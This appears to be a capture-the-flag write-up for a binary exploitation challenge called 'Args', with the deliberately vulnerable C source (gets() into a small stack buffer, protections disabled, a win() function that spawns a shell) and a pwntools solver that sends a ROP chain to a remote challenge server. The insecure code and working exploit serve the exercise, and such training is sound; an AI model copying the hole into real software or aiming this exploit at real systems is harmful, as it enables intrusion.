 ## Args
![challenge](../images/args.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stdin, NULL, _IONBF, 0);
}
int win(int a, int b){
    if (a == 0xdeadbeef && b == 0xcafebabe){
        system("/bin/sh");
    } else {
        puts("You are in but keep trying");
    }
}
int main(){
    setup();
    char buf[50];
    printf("double room for ?:");
    gets(buf);
    return 0;
}
```
### Overview
This challenge is a bit similar to the [BabyBOF](../BabyBOF) but here we have arguments to pass.
In order to do that we can use ```ROP``` from pwntools library, that makes our lives more better.

### Solver
```py
from pwn import * 

elf = context.binary = ELF('main')
con = remote('20.216.40.184',10003)

offset = b'A' * 72

rop = ROP(elf)
rop.win(0xdeadbeef,0xcafebabe)

log.info(rop.dump())
payload = offset + rop.chain() 

con.send(payload)
con.interactive()
con.close()
```
